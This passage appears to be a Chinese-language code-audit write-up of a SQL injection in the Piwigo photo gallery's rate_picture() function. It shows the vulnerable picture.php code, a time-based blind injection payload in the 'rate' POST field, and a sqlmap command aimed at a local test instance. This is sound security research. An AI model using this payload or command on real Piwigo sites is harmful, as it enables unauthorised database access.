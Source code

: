```sql
INSERT INTO piwigo_rate (user_id,anonymous_id,element_id,rate,date) VALUES (2,'192.168.2',1,1,1 and if(ascii(substr((select database()),1,1))=112,1,sleep(3)));#,NOW()) ;
```



假如我们能控制 `$rate`  变量，则可以造成 sql 注入，接下来该寻找哪些地方调用了 `rate_picture()` 函数

#### 起点可控处

在 `picture.php` 中，发现调用了 `rate_picture()` 函数，简化源码分析如下：

```php
if (isset($_GET['action']))
{
  switch ($_GET['action'])
  {
case 'rate' :
    {
      include_once(PHPWG_ROOT_PATH.'include/functions_rate.inc.php');
      rate_picture($page['image_id'], $_POST['rate']);
      redirect($url_self);
    }
  }
}
```

当 `GET：action=rate  且 POST：rate=注入payload`  便可能注入成功

这样就可以进行盲注了，如果上面的代码你看的比较乱的话，可以看下面简化后的代码：

<img src=".\图片\Snipaste_2023-04-02_20-06-43.png" alt="Snipaste_2023-04-02_20-06-43" style="zoom:80%;" />

#### sqlmap测试

```bash
python sqlmap.py -u "http://127.0.0.1:8081/piwigo/picture.php?/1/category/1&action=rate" --data "rate=1" --dbs --batch
```
